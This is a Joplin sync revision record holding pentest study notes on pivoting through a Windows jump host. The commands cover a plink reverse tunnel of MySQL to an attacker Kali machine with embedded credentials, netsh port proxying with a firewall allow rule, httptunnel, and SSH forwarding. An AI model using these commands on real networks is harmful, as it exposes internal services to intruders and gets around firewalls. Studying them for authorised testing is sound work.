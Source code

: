 id: 978bd17716c54519a6d189435cabdd17
parent_id: 
item_type: 1
item_id: 4219bbfe4649451bb4d2d2a90c5a6a79
item_updated_time: 1646016696311
title_diff: "[{\"diffs\":[[1,\"2ffe46d523e542f688c29bab156ef602\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 2ffe46d523e542f688c29bab156ef602\\\r\\\nparent_id: \\\r\\\nitem_type: 1\\\r\\\nitem_id: 031a8c2867cc4bc78a01f92e5b076d83\\\r\\\nitem_updated_time: 1642342397044\\\r\\\ntitle_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"PLINK & Others\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":14}]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"Like Putty, use for remote port forwarding on Windows machine\\\\\\\\\\\\\n\\\\\\\\\\\\\nRun on the target JMPHOST Windows machine; to\\\\\\\\\\\\\n\\\\\\\\\\\\\n> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R $KALIIP0:$KALIPORT:127.0.0.1:3306 $KALIIP\\\\\\\\\\\\\n\\\\\\\\\\\\\nNetsh (Installed by default in every Windows system)\\\\\\\\\\\\\n\\\\\\\\\\\\\nCan be used only if \\\\\\\\\\\\\\\"IP Helper\\\\\\\\\\\\\\\" service is running and IPv6 is enabled on the machine\\\\\\\\\\\\\n\\\\\\\\\\\\\n> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.190.10 connectport=445 connectaddress=172.16.190.5\\\\\\\\\\\\\n\\\\\\\\\\\\\nVerify it is on\\\\\\\\\\\\\n\\\\\\\\\\\\\n> netstat -anp TCP | find \\\\\\\\\\\\\\\"4455\\\\\\\\\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\nTo enable the firewall to allow traffic:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> netsh advfirewall firewall add rule name=\\\\\\\\\\\\\\\"forward\\\\\\\\\\\\\\\\_port\\\\\\\\\\\\\\\\_rule\\\\\\\\\\\\\\\" protocol=TCP dir=in localip=192.168.190.10 localport=4455 action=allow\\\\\\\\\\\\\n\\\\\\\\\\\\\n<ins>Httptunnel - tunnels a data stream in http requests</ins>\\\\\\\\\\\\\n\\\\\\\\\\\\\nLinux Kali:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> htc --forward-port 8080 JUMPHOSTIP:1234\\\\\\\\\\\\\n\\\\\\\\\\\\\nHTTP jumphost:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> hts --forward-port localhost:8888 1234\\\\\\\\\\\\\n\\\\\\\\\\\\\nHTTP jumphost:\\\\\\\\\\\\\n\\\\\\\\\\\\\n> ssh -L 0.0.0.0:8888:TARGETIP:TARGETPORT user@127.0.0.1\\\\\\\\\\\\\n\\\\\\\\\\\\\nGateway finder -- find router to the internet\\\\\\\\\\\\\n\\\\\\\\\\\\\nhttps://github.com/pentestmonkey/gateway-finder\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":1056}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"id\\\":\\\"031a8c2867cc4bc78a01f92e5b076d83\\\",\\\"parent_id\\\":\\\"fa5212f3e7624b48b87153f3e4182dd1\\\",\\\"latitude\\\":\\\"1.36730000\\\",\\\"longitude\\\":\\\"103.80140000\\\",\\\"altitude\\\":\\\"0.0000\\\",\\\"author\\\":\\\"\\\",\\\"source_url\\\":\\\"\\\",\\\"is_todo\\\":0,\\\"todo_due\\\":0,\\\"todo_completed\\\":0,\\\"source\\\":\\\"joplin-desktop\\\",\\\"source_application\\\":\\\"net.cozic.joplin-desktop\\\",\\\"application_data\\\":\\\"\\\",\\\"order\\\":821170205906,\\\"markup_language\\\":1,\\\"is_shared\\\":0,\\\"share_id\\\":\\\"\\\",\\\"conflict_original_id\\\":\\\"\\\",\\\"master_key_id\\\":\\\"\\\"},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-16T14:15:29.513Z\\\r\\\ncreated_time: 2022-01-16T14:15:29.513Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":2152}]"
metadata_diff: {"new":{"id":"4219bbfe4649451bb4d2d2a90c5a6a79","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016696299,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.465Z
created_time: 2022-02-28T02:54:22.465Z
type_: 13